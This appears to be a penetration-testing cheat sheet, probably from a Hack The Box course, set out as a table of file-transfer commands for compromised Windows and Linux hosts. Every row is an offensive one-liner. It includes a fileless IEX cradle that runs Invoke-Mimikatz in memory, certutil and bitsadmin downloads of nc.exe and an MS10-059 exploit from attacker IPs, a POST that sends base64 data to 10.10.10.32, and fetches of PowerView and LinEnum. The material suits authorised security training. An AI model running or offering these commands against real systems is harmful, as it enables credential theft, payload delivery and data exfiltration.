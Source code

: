 |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |                                                                                                                                                                                                                                                                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Command                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Description                                                                                                                                                                                                                                                                       |
| [https://gist.github.com/HarmJ0y/bb48307ffa663256e239](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)                                                                                                                                                                                                                                                                                                                                                                                                           | Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their nuances, such as a lack of proxy awareness or touching disk (downloading a file onto the target) to select the appropriate one for the situation. |
| Invoke-WebRequest [https://<snip>/PowerView.ps1](https://%3csnip%3e/PowerView.ps1) -OutFile PowerView.ps1<br><br>Example:<br><br>PS C:\htb> Invoke-WebRequest [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) -OutFile PowerView.ps1                                                                                                                                                    | Download a file with PowerShell.<br><br>From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.                    |
| IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')<br><br>Example:<br><br>PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')<br><br>IEX also accepts pipeline input.<br><br>PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') \| IEX | Execute a file in memory using PowerShell – Fileless method                                                                                                                                                                                                                       |
| Invoke-WebRequest -Uri [http://10.10.10.32:443](http://10.10.10.32:443) -Method POST -Body $b64                                                                                                                                                                                                                                                                                                                                                                                                                        | Upload a file with PowerShell                                                                                                                                                                                                                                                     |
| bitsadmin /transfer n [http://10.10.10.32/nc.exe](http://10.10.10.32/nc.exe) C:\Temp\nc.exe                                                                                                                                                                                                                                                                                                                                                                                                                            | Download a file using Bitsadmin                                                                                                                                                                                                                                                   |
| certutil.exe -verifyctl -split -f [http://10.10.10.32/nc.exe](http://10.10.10.32/nc.exe)<br><br>certutil -urlcache -f [http://10.10.14.5/MS10-059.exe](http://10.10.14.5/MS10-059.exe) ms.exe                                                                                                                                                                                                                                                                                                                          | Download a file using Certutil                                                                                                                                                                                                                                                    |
| wget [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -O /tmp/LinEnum.sh                                                                                                                                                                                                                                                                                                                                               | Download a file using Wget                                                                                                                                                                                                                                                        |
| curl -o /tmp/LinEnum.sh [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)                                                                                                                                                                                                                                                                                                                                               | Download a file using cURL                                                                                                                                                                                                                                                        |
| php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'                                                                                                                                                                                                                                                                                                                                                                                                                | Download a file using PHP                                                                                                                                                                                                                                                         |
| scp C:\Temp\bloodhound.zip [user@10.10.10.150:/tmp/bloodhound.zip](mailto:user@10.10.10.150:/tmp/bloodhound.zip)                                                                                                                                                                                                                                                                                                                                                                                                       | Upload a file using SCP                                                                                                                                                                                                                                                           |
| scp [user@target:/tmp/mimikatz.exe](mailto:user@target:/tmp/mimikatz.exe) C:\Temp\mimikatz.exe                                                                                                                                                                                                                                                                                                                                                                                                                         | Download a file using SCP                                                                                                                                                                                                                                                         |
| Invoke-WebRequest [http://nc.exe](http://nc.exe) -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"                                                                                                                                                                                                                                                                                                                                                                                      | Invoke-WebRequest using a Chrome User Agent                                                                                                                                                                                                                                       |